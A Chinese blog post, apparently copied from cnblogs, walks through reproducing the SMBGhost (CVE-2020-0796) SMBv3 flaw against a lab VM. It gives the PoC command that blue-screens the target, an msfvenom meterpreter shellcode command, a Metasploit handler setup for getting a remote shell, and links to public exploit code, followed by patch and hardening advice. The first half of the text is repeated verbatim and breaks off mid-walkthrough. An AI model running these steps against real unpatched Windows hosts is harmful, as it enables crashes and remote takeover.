



# CVE-2020-0796（永恒之黑）漏洞 - noone52 - 博客园

> 原文：[`www.cnblogs.com/MoZiYa/p/16690246.html`](https://www.cnblogs.com/MoZiYa/p/16690246.html)

[CVE-2020-0796（永恒之黑）漏洞利用 getshell 复现详细过程](https://www.cnblogs.com/kbhome/p/13073746.html)

### CVE-2020-0796（永恒之黑）漏洞

##### 漏洞原理：

SMB 远程代码执行漏洞

SMB 3.1.1 协议中处理压缩消息时，对其中数据没有经过安全检查，直接使用会引发内存破坏漏洞，可能被攻击者利用远程执行任意代码。攻击者利用该漏洞无须权限即可实现远程代码执行，受黑客攻击的目标系统只需开机在线即可能被入侵。

Windows 10 和 Windows Server 2016 引入了 SMB 3.1.1 。本次漏洞源于 SMBv3 没有正确处理压缩的数据包，在解压数据包的时候使用客户端传过来的长度进行解压时，并没有检查长度是否合法，最终导致整数溢出。

利用该漏洞，黑客可直接远程攻击 SMB 服务端远程执行任意恶意代码，亦可通过构建恶意 SMB 服务端诱导客户端连接从而大规模攻击客户端。

##### 影响版本：

Windows 10 Version 1903 for 32-bit Systems
Windows 10 Version 1903 for x64-based Systems
Windows 10 Version 1903 for ARM64-based Systems
Windows Server, Version 1903 (Server Core installation)
Windows 10 Version 1909 for 32-bit Systems
Windows 10 Version 1909 for x64-based Systems
Windows 10 Version 1909 for ARM64-based Systems
Windows Server, Version 1909 (Server Core installation)

##### 工具下载

漏洞检测工具：[`dl.qianxin.com/skylar6/CVE-2020-0796-Scanner.zip`](http://dl.qianxin.com/skylar6/CVE-2020-0796-Scanner.zip)

攻击 poc：[`github.com/eerykitty/CVE-2020-0796-PoC`](https://github.com/eerykitty/CVE-2020-0796-PoC)

shell 脚本：[`github.com/chompie1337/SMBGhost_RCE_PoC`](https://github.com/chompie1337/SMBGhost_RCE_PoC)

Windows 靶机系统：msdn 我告诉你 https://msdn.itellyou.cn/
或者：
[`sl-m-ssl.xunlei.com/h5/page/download-share/index.html?entry=link&appType=PC&videobtindex=-1&storid=c39vhtrekug5&share_from=dlpage_share_link`](https://sl-m-ssl.xunlei.com/h5/page/download-share/index.html?entry=link&appType=PC&videobtindex=-1&storid=c39vhtrekug5&share_from=dlpage_share_link)

#### 漏洞攻击-蓝屏复现

环境：

目标机：windows10 1903 x64 ip：192.168.73.137（虚拟机）

攻击机：Windows10 (物理机)

操作：

1.  首先将目标机的防火墙全部关闭，防火墙所有设置都关了

2.  在攻击机上对目标机进行检测，看其是否存在漏洞。利用下载的相关漏洞扫描工具，进入工具包路径内在命令行中运行工具，检测存在漏洞。

    

3.  利用下载的 poc 脚本发起攻击

    ```
    python3 CVE-2020-0796.py 192.168.73.137 
    ```

    

    发现需要下载一些 python 文件，才能运行脚本。pip 下载，根据提示下载相应文件

    

    

    

4.  重新发起攻击，发现目标机蓝屏，攻击成功

    

#### 漏洞利用-反弹 shell

环境：

目标机：windows10 1903 x64 ip：192.168.73.137（虚拟机）

攻击机：kali ip：192.168.73.131（虚拟机）

操作：

1.  首先生成一个反向连接木马

    ```
    msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=8888 -b '\x00' -i 1 -f python 
    ```

说明: 
#-p payload
#-e 编码方式
#-i 编码次数
#-b 在生成的程序中避免出现的值
#LHOST,LPORT 监听上线的主机 IP 和端口
#-f exe 生成 EXE 格式
#‘\x00‘转义字符，对应 ascall 码中为 null，因为是二进制文件所以会出现，在 python 中作为结束的标志，有点相当于%00 截断的感觉。



*   用生成的 shellcode 将 shell 脚本工具里面的 exploit.py 中的 user_payload 替换掉。保留前面的名字，只替换内容，如图

    

    

    这里有一个小诀窍，先整体粘贴复制，然后将 buf += 替换为 user_paload，就不用一行一行粘贴了，节省了很多时间。

*   开启 msf 监听模块

    ```
    use exploit/multi/handler
    set payload windows/x64/meterpreter/bind_tcp
    set lport 8888
    set rhost 192.168.73.137
    run 
    ```

    

    注意：监听模块的端口设置，和生成的木马设置的端口是同一个，用于反弹 shell 的入口的。

*   运行 exploit.py 脚本，发起攻击反弹 shell

    

*   执行成功，查看监听的地方，成功得到 shell

    

    

    这个脚本有点问题，要多试几次才能得到 shell，不用着急。这个脚本有时候会把靶机打蓝屏，重启一下靶机就好了，继续执行脚本知道得到 shell。
    还有一个问题就是，如果你的靶机系统会自动更新的话会把漏洞修补掉，最好先拍一个快照，或者吧自动更新关闭。

*   #### 修复建议

    1.  安装官方补丁

        微软已经发布了此漏洞的安全补丁，访问如下链接：
        [`portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0796`](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0796)

        **方法一：给对应的系统打微软出的最新补丁**

        | 系统类型 | 介绍 | 下载链接 |
        | --- | --- | --- |
        | Windows 10 Version 1903 for 32-bit Systems | [KB4551762 介绍](https://support.microsoft.com/help/4551762) | [下载](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762) |
        | Windows 10 Version 1903 for ARM64-based Systems | [KB4551762 介绍](https://support.microsoft.com/help/4551762) | [下载](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762) |
        | Windows 10 Version 1903 for x64-based Systems | [KB4551762 介绍](https://support.microsoft.com/help/4551762) | [下载](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762) |
        | Windows 10 Version 1909 for 32-bit Systems | [KB4551762 介绍](https://support.microsoft.com/help/4551762) | [下载](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762) |
        | Windows 10 Version 1909 for ARM64-based Systems | [KB4551762 介绍](https://support.microsoft.com/help/4551762) | [下载](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762) |
        | Windows 10 Version 1909 for x64-based Systems | [KB4551762 介绍](https://support.microsoft.com/help/4551762) | [下载](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762) |
        | Windows Server, version 1903 (Server Core installation) | [KB4551762 介绍](https://support.microsoft.com/help/4551762) | [下载](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762) |
        | Windows Server, version 1909 (Server Core installation) | [KB4551762 介绍](https://support.microsoft.com/help/4551762) | [下载](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB4551762) |

    2.  禁用 SMBv3 压缩

        禁用 SMB 3.0 的压缩功能，是否使用需要结合自己业务进行判断。
        使用以下 PowerShell 命令禁用压缩功能，以阻止未经身份验证的攻击者利用 SMBv3 服务器的漏洞。
        Set-ItemProperty -Path “HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters” DisableCompression -Type DWORD -Value 1 -Force
        用户可通过以下 PowerShell 命令撤销禁用压缩功能
        Set-ItemProperty -Path “HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters” DisableCompression -Type DWORD -Value 0 -Force
        注：利用以上命令进行更改后，无需重启即可生效；该方法仅可用来防护针对 SMB 服务器（SMB SERVER）的攻击，无法对 SMB 客户端（SMB Client）进行防护。

    3.  设置防火墙策略关闭相关端口

        SMB 的 TCP 445 端口
        NetBIOS 名称解析的 UDP 137 端口
        NetBIOS 数据图服务的 UDP 138 端口
        NetBIOS 会话服务的 TCP 139 端口

    4.  通过 IP 安全策略屏蔽危险端口，bat 执行添加防火墙策略，关闭危险服务
        [`www.piis.cn/news/new1614.asp`](http://www.piis.cn/news/new1614.asp)

### CVE-2020-0796（永恒之黑）漏洞

##### 漏洞原理：

SMB 远程代码执行漏洞

SMB 3.1.1 协议中处理压缩消息时，对其中数据没有经过安全检查，直接使用会引发内存破坏漏洞，可能被攻击者利用远程执行任意代码。攻击者利用该漏洞无须权限即可实现远程代码执行，受黑客攻击的目标系统只需开机在线即可能被入侵。

Windows 10 和 Windows Server 2016 引入了 SMB 3.1.1 。本次漏洞源于 SMBv3 没有正确处理压缩的数据包，在解压数据包的时候使用客户端传过来的长度进行解压时，并没有检查长度是否合法，最终导致整数溢出。

利用该漏洞，黑客可直接远程攻击 SMB 服务端远程执行任意恶意代码，亦可通过构建恶意 SMB 服务端诱导客户端连接从而大规模攻击客户端。

##### 影响版本：

Windows 10 Version 1903 for 32-bit Systems
Windows 10 Version 1903 for x64-based Systems
Windows 10 Version 1903 for ARM64-based Systems
Windows Server, Version 1903 (Server Core installation)
Windows 10 Version 1909 for 32-bit Systems
Windows 10 Version 1909 for x64-based Systems
Windows 10 Version 1909 for ARM64-based Systems
Windows Server, Version 1909 (Server Core installation)

##### 工具下载

漏洞检测工具：[`dl.qianxin.com/skylar6/CVE-2020-0796-Scanner.zip`](http://dl.qianxin.com/skylar6/CVE-2020-0796-Scanner.zip)

攻击 poc：[`github.com/eerykitty/CVE-2020-0796-PoC`](https://github.com/eerykitty/CVE-2020-0796-PoC)

shell 脚本：[`github.com/chompie1337/SMBGhost_RCE_PoC`](https://github.com/chompie1337/SMBGhost_RCE_PoC)

Windows 靶机系统：msdn 我告诉你 https://msdn.itellyou.cn/
或者：
[`sl-m-ssl.xunlei.com/h5/page/download-share/index.html?entry=link&appType=PC&videobtindex=-1&storid=c39vhtrekug5&share_from=dlpage_share_link`](https://sl-m-ssl.xunlei.com/h5/page/download-share/index.html?entry=link&appType=PC&videobtindex=-1&storid=c39vhtrekug5&share_from=dlpage_share_link)

#### 漏洞攻击-蓝屏复现

环境：

目标机：windows10 1903 x64 ip：192.168.73.137（虚拟机）

攻击机：Windows10 (物理机)

操作：

1.  首先将目标机的防火墙全部关闭，防火墙所有设置都关了

2.  在攻击机上对目标机进行检测，看其是否存在漏洞。利用下载的相关漏洞扫描工具，进入工具包路径内在命令行中运行工具，检测存在漏洞。

    

3.  利用下载的 poc 脚本发起攻击

    ```
    python3 CVE-2020-0796.py 192.168.73.137 
    ```

    

    发现需要下载一些 python 文件，才能运行脚本。pip 下载，根据提示下载相应文件

    

    

    

4.  重新发起攻击，发现目标机蓝屏，攻击成功

    

#### 漏洞利用-反弹 shell

环境：

目标机：windows10 1903 x64 ip：192.168.73.137（虚拟机）

攻击机：kali ip：192.168.73.131（虚拟机）

操作：

1.  首先生成一个反向连接木马

    ```
    msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=8888 -b '\x00' -i 1 -f python 
    ```